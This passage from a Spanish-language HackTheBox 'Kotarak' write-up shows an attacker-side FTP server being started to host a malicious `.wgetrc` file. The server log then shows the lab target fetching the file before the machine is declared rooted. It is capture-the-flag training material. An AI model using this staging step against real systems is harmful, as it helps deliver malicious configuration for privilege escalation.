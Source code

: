Server FTP montado desde nuestro Kali para alojar el `.wgetrc` donde van las instrucciones maliciosas (EJECUTAR ESTO ANTES QUE EL EXPLOIT)
```
─(root💀kali)-[/home/…/HTB/OSCP/Kotarak/exploits]
└─# python3 -m pyftpdlib -p21 -w
/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2021-07-20 16:44:46] concurrency model: async
[I 2021-07-20 16:44:46] masquerade (NAT) address: None
[I 2021-07-20 16:44:46] passive ports: None
[I 2021-07-20 16:44:46] >>> starting FTP server on 0.0.0.0:21, pid=6124 <<<
[I 2021-07-20 16:45:13] 10.10.10.55:56700-[] FTP session opened (connect)
[I 2021-07-20 16:45:59] 10.10.10.55:34470-[] FTP session opened (connect)
[I 2021-07-20 16:45:59] 10.10.10.55:34470-[anonymous] USER 'anonymous' logged in.
[I 2021-07-20 16:46:00] 10.10.10.55:34470-[anonymous] RETR /home/Escritorio/HTB/OSCP/Kotarak/exploits/.wgetrc completed=1 bytes=73 seconds=0.032
[I 2021-07-20 16:46:00] 10.10.10.55:34470-[anonymous] FTP session closed (disconnect).
```

Maquina Rooteada =D 


